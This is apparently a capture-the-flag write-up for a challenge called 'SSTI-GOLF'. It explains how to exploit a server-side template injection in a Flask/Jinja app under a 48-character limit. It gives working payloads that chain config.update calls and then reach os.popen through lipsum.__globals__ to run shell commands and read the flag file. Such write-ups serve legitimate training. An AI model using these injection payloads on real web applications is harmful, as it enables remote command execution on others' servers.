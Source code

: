 # SSTI-GOLF

Challenge Description:

> Just in case you didn't get *enough* golf with the other challenge. Flag is in an arbitrarily named file, but in the same directory.



## Analyzing The Website

The payload we send to the query parameter must be less than 48 characters.    

![Source Code](question.PNG)



We can use the `url_for` function to access globals and then the OS function and call the listdir function as shown below .  
![List Directory](dir_list.PNG)

We see the flag is in the `truly_an_arbitrarily_named_file`. We cannot use the OS module to read this file because the payload length crosses the 48 mark. Instead,we can reduce the length by splitting the file name into 2 separate variables/strings and store them in the config object so that we can use them later.  

- Step 1 --> `{{config.update(x='cat truly_an_arbitrarily_')}}`
- Step 2 --> `{{config.update(y=config.x~'named_file')}}` (~ is used for concatenation)
- Step 3 --> `{{lipsum.__globals__.os.popen(config.y).read()}}` 

We separated the 2 strings and stored them in 1 variable named 'y' and then called popen to use that as a argument and read the flag.  

![flag](flag.PNG)
